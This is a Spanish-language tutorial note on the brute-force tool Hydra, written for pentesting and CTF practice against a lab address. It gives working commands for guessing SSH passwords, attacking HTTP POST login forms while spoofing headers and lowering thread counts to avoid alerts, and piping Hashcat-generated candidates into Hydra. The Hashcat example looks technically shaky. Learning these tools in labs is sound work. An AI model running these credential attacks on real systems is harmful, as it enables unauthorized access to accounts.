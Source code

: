 
-------------

>Hydra, es una de las herramientas de fuerza bruta mas usadas en el ámbito del pentesting y la resolución de CTFs. Como la usaremos muy seguido en entornos controlados, vale la pena ahondar un poco en ella...
>Hay bastantes mas herramientas de "Prueba De Credenciales", como Medusa o Ophcrack. Hydra destaca por su eficiencia, paralelizando de manera masiva tareas y siendo útil para una buena variedad de protocolos; como SSH, HTTP, FTP o SMB.

>Un escaneo del mas usual con Hydra seria sobre un servicio SSH, ya con un usuario, encontrando una contraseña:

![BreakMySSH](/Attachments/BreakMySSH%207.png)
1. _-l (este parámetro se usa para determinar el usuario que ya tenemos, si no tenemos un usuario, al colocar “-L” podemos incluir una wordlist para atacarlos también)_
2. _-P (para determinar, una wordlist con posibles contraseñas, si tuviéramos una contraseña y quisiéramos probar usuarios, en este punto colocamos “-p” y la contraseña)_
3. _ssh:// (para determinar el servicio a atacar)
4. _-t (indico que deseo emplear 64 hilos, para agilizar el escaneo)_

>Algunas técnicas complementarias interesantes:

```bash
hydra -l admin -x "4:6:aA1?*^" ssh://172.17.0.2
```
_Usamos REGEX con la flag "-x" Para determinar la creación de posibles contraseñas ("4:6" de 4 a 6 caracteres, "aA" con minúsculas y mayúsculas, "1" con números del 1 al 9, "?*^" con estos caracteres especiales) 

```bash
hydra http-post-form -L users.txt -P pass.txt \
"172.17.0.2/login:user=^USER^&pass=^PASS^:F=error" \
-s 443 -H "User-Agent: Mozilla/5.0 (Windows NT 10.0)" \
-H "X-Forwarded-For: 1.2.3.4" -t 3
```
_En este caso, atacando usuario y contraseña en un login http enviado por POST, con "-H" cambiamos el "user-agent" de forma dinámica, con -t 3 bajamos la cantidad de Hilos para evitar restricciones o alertas_

>Hasta podemos combinar Hydra con Hashcat (Usaríamos Hashcat como una especie de "Preprocesador"):

```bash
hashcat -a 6 -m 0 ?a?a?a?a --stdout | hydra -l admin -P - http-post-form "172.17.0.2/login:user=^USER^&pass=^PASS^"
```
_Con la primera parte "Hashcat -a 6 -m 0 ?a?a?a?a --stdout"_
1. _Con -a 6 generamos TODAS las combinaciones posibles para el patrón proporcionado_
2. _Usamos en modo raw MD5 "-m 0" para que no nos de un error :(
3. "?a?a?a?a" es una manera de representar una contraseña de 4 caracteres con TODOS los caracteres imprimibles ASCII
4. Con la ultima flag "--stdout" creamos un flujo continuo de contraseñas al "stdout" (Salida que usara el siguiente comando)
_Con la segunda parte "hydra -l admin -P - http-post-form"_
5. _Con -P - Leemos contraseñas desde el stdin_ (Desde el stdout del comando anterior)
6. "http-post-form" especifica un formulario por petición POST
7. Con la porción entre comillas enviamos por POST "POST /login HTTP/1.1...\n user=admin&pass=Aqui_probamos_las_contraseñas"

>Hydra es una de las herramientas de mas relevancia en CTFs, aunque, su uso siempre es a gusto del usuario, es decir, hay mas opciones bastante buenas, nos quedamos con la que mas nos gusta :3